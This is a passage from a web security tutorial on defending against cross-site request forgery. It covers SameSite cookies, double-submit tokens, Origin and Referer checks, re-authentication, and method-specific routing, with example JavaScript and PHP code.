Set-Cookie: session=abc123; SameSite=Strict; Secure; HttpOnly

Or:
Set-Cookie: session=abc123; SameSite=Lax; Secure; HttpOnly

SameSite=Strict:
└── Cookie never sent in cross-site requests
    └── Even GET requests blocked
        └── Complete CSRF protection! ✓

SameSite=Lax:
└── Cookie sent in:
    ├── Same-site requests ✓
    ├── Top-level GET navigations ✓
    └── NOT in:
        ├── Cross-site POST ❌
        ├── Cross-site images/iframes ❌
        └── Blocks most CSRF attacks! ✓

Why this helps:
└── Even if GET bypasses CSRF validation
    └── Cookie not sent cross-site
        └── Attack fails! ✓

Combined with CSRF tokens:
└── Defense in depth! 🛡️
```

---

### **Fix 5: Double Submit Cookie Pattern**

```r
// ✅ SECURE - Double submit pattern for all methods

// Server sets CSRF token in cookie
app.use((req, res, next) => {
    if (!req.cookies.csrfToken) {
        const token = generateSecureToken();
        res.cookie('csrfToken', token, {
            httpOnly: false,  // Accessible to JavaScript
            secure: true,
            sameSite: 'Strict'
        });
    }
    next();
});

// Validate for ALL methods
app.all('/change-email', (req, res) => {
    const cookieToken = req.cookies.csrfToken;
    const requestToken = req.body.csrf || req.query.csrf;
    
    if (!cookieToken || !requestToken || cookieToken !== requestToken) {
        return res.status(403).send('CSRF validation failed');
    }
    
    // Process request
    updateEmail(req.body.email || req.query.email);
    res.redirect('/account');
});

Benefits:
✅ Works for GET and POST
✅ Token in both cookie and request
✅ Both must match
✅ Attacker cannot read cookie cross-origin
✅ Cannot forge valid request
```

---

### **Fix 6: Origin Header Validation**

```r
// ✅ SECURE - Validate Origin header for all methods

function validateOrigin() {
    $origin = $_SERVER['HTTP_ORIGIN'] ?? '';
    $host = $_SERVER['HTTP_HOST'];
    
    // If Origin header present, validate it
    if (!empty($origin)) {
        $originHost = parse_url($origin, PHP_URL_HOST);
        if ($originHost !== $host) {
            http_response_code(403);
            die('Invalid origin');
        }
    }
    
    // Also check Referer as fallback
    $referer = $_SERVER['HTTP_REFERER'] ?? '';
    if (!empty($referer)) {
        $refererHost = parse_url($referer, PHP_URL_HOST);
        if ($refererHost !== $host) {
            http_response_code(403);
            die('Invalid referer');
        }
    }
    
    return true;
}

// Apply to all state-changing requests
validateOrigin();
validateCSRFToken();  // Still validate token!
processEmailChange();

Benefits:
✅ Checks request origin
✅ Works for all methods
✅ Defense in depth with CSRF tokens
✅ Blocks cross-origin attacks
```

---

### **Fix 7: Require Re-authentication**

```r
// ✅ SECURE - Require password for sensitive changes

<form method="POST" action="/change-email">
    <input type="hidden" name="csrf" value="TOKEN">
    <input type="email" name="email" placeholder="New email">
    <input type="password" name="current_password" 
           placeholder="Confirm your password">
    <button type="submit">Update Email</button>
</form>

Server-side:
app.post('/change-email', (req, res) => {
    // Validate CSRF
    if (!validateCSRFToken(req.body.csrf)) {
        return res.status(403).send('Invalid CSRF token');
    }
    
    // Require current password
    if (!verifyPassword(req.user, req.body.current_password)) {
        return res.status(403).send('Invalid password');
    }
    
    // Both validations passed
    updateEmail(req.user, req.body.email);
    res.redirect('/account');
});

Benefits:
✅ Even if CSRF bypassed, needs password
✅ Attacker unlikely to know password
✅ Extra security layer
✅ Best for critical operations
```

---

### **Fix 8: Method-Specific Routing**

```r
// ✅ SECURE - Separate routes per method

// Only accept POST
app.post('/change-email', csrfProtection, (req, res) => {
    updateEmail(req.body.email);
    res.redirect('/account');
});

// GET returns error
app.get('/change-email', (req, res) => {
    res.status(405).send('POST required for email changes');
});

// Reject all other methods
app.all('/change-email', (req, res) => {
    res.status(405).send('Method not allowed');
});

Benefits:
✅ Explicit method handling
✅ Clear separation of concerns
✅ GET explicitly rejected
✅ CSRF only on POST route
✅ No method confusion
```

---
